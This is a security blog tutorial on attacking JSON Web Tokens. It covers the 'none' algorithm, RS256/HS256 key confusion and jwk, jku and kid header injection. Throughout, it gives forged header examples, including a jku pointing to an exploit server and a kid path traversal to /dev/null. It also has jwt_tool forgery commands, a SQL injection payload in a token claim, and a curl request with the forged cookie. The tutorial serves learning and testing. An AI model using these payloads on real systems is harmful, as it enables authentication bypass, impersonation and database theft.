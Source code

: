 ```yaml
---
layout: blog
title:  "Attacking JSON Web Tokens"
date:   2023-09-02T13:22
categories: ['Web-Exploitation']
---
```


![](/assets/images/headers/JWT.png)

Incorrect handling of JSON Web Tokens (JWTs) can leave a website vulnerable to a variety of attacks. To understand these attacks we first have to know what a JWT token is.

## What is a JSON Web Token?
JSON Web Tokens are widely used for authentication, session management, and access control purposes in web applications. It is a compact and self-contained way to securely transmit data ("claims") between server and client as a JSON object. These tokens can be signed using a secret or a public/private key pair. A typical JWT token consists of 3 main parts:
- **Header**: contains algorithm and type
- **Payload**: contains user information
- **Signature**: validates the above portions with a secret key or public/private key pair. Without knowing the server's secret signing key, it should be impossible to generate the correct signature for a given header or payload.

All of these parts are separated by a dot character and base64 encoded, as show in the following example:
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYnl0ZWJsMzNkIiwic3ViIjoiYnl0ZSIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNTE2MjM5MDIyfQ.Ovvl3b1UnC1oNYAfBSIVfcoH2b3PtBJJ1iUbehvcZr4
```

## Attacking JWT Tokens
JWT vulnerabilities typically arise due to flawed JWT handling within an application, meaning that the signature of the token is not properly verified. Even if the signature is correctly verified, the trust relies heavily on the security of the secret key.

### Improper signature verification
If the server does not properly verify the signature, anyone is able to make arbitrary changes to the content of the token. For example, suppose the JWT contains the following claims:
```json
{
    "username": "bytebl33d",
    "isAdmin": false
}
```
If the server identifies the session based on the username, modifying its value might enable an attacker to impersonate other logged-in users. Similarly, if the `isAdmin` value is used for access control, this could provide a simple vector for privilege escalation.

### Accepting tokens with no signature
The JWT header contains an `alg` parameter telling the server which algorithm was used to sign the token. This means that it also tells which algorithm to use when verifying the signature.
```json
{
    "alg": "RS256",
    "typ": "JWT"
}
```
JWTs can be signed using a range of different algorithms, but can also be left unsigned. In this case, the `alg` parameter can be set to `none`, which indicates a so-called "unsecured JWT".

### Algorithm confusion attacks
Algorithm confusion attacks (also known as key confusion attacks) occur when an attacker is able to force the server to verify the signature of a JSON web token using a different algorithm than is intended by the website's developers. This vulnerability typically arises because of a flawed implementation of the token verification. Many libraries make use of a generic method to verify the token that rely on the alg parameter in the JWT header.
```js
token = request.getCookie("session");
verify(token, publicKey);
```
Some of the signing algorithms, such as HS256, use a "symmetric" key which is a single key to both sign and verify the token. Using a flawed verification process like above enables an attacker to sign the token using HS256 and the public key, where the server will use that same public key to verify the signature.
The public key can look something like this:
```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY
ktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi
XuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg
jIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH
+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx
V8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr
0wIDAQAB
-----END PUBLIC KEY-----
```
This means we can make our own JWTs with a forged signature created using the public key and the HS256 algorithm to bypass the authentication completely. Since the JWT was already signed using the public key, the signature verification by the application is successful leading to a successful key confusion attack.

> **_NOTE:_** In cases where the public key isn't readily available, you may still be able to test for algorithm confusion by deriving the key from a pair of existing JWTs. This process is relatively simple using tools such as [jwt_forgery.py](https://github.com/silentsignal/rsa_sign2n/tree/release/standalone).

### JWT header parameter injection
Although only the `alg` parameter is mandatory, in practice the header often contain other parameters:
- `jwk` : JSON Web Key (can sometimes be exposed on standard endpoints such as `/.well-know/jswks.json`)
- `jku` : JSON Web Key Set URL for servers to fetch a set of trusted keys
- `kid` : Key ID that servers can use to identify the correct key in cases where there are multiple keys to choose from

#### JWK parameter injection
Ideally, servers should only use a limited whitelist of public keys to verify JWT signatures. However, misconfigurations often lead use to use any key that's embedded in the jwk parameter. This makes it possible to sign a modified JWT using your own RSA private key, and then embedding the matching public key in the `jwk` header. You can see an example of this in the following JWT header:
```json
{
    "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "AQAB",
        "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
        "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
    }
}
```

#### JKU parameter injection
The `jku` parameter points to an endpoint where JWKs are stored used to verify the signature. This can also be changed by an attacker to point to there own generated set of keys.
```json
{
    "alg": "RS256",
    "typ": "JWT",
    "jku":"https://exploit-server.com/key.json" 
}
```
Example content of the `key.json` file:
```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7",
            "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw"
        }
    ]
}
```

#### KID parameter injection
The `kid` parameter has no concrete structure and can be vulnerable to directory traversal if misconfigured:
```json
{
    "kid": "../../../../dev/null",
    "typ": "JWT",
    "alg": "HS256",
}
```
Of course you can make the parameter point to any file, but the `/dev/null` file that is present in Linux systems returns an empty string. This will sign the token with an empty string and results in a valid signature.

## JSON Web Token Toolkit
The [jwt_tool.py](https://github.com/ticarpi/jwt_tool) is a very useful toolkit for validating, forging, scanning and tampering with JSON Web Tokens. It can test for a variety of known exploits such as the RS/HS256 public key mismatch vulnerability discussed in this article. Let's look at an example that leverages the key confusion attack on a JWT token when we have access to the public key. The `-X k` flag can be used for the key confusion attack.
```bash
python3 jwt_tool.py <JWT_TOKEN> -X k -pk public.pem
```
Using this tool we can even inject SQL queries in certain payload fields that we are interested in. We can do this using the `-I` flag, specifying the claim `-pc` and value `-pv` of the payload to tamper. In this example we are changing the current username to be 'admin'.
```
python3 jwt_tool.py <JWT_TOKEN> -I -pc username -pv "admin" -X k -pk key.pem
```

### SQL Injection Payloads
If certain functions on the web application are vulnerable to SQL injection, we can even modify the JWT token to include an injection payload of our choice.
```bash
python3 jwt_tool.py <JWT_TOKEN> -I -pc username -pv "' AND 1 = 0 UNION ALL SELECT 1,group_concat(sql),3 FROM sqlite_master--" -X k -pk public.pem
```
We can then use the newly generated fake token and set it as our session cookie:
```bash
curl http://<Host>:<PORT>/ -b 'session=<FAKE-TOKEN>'
```
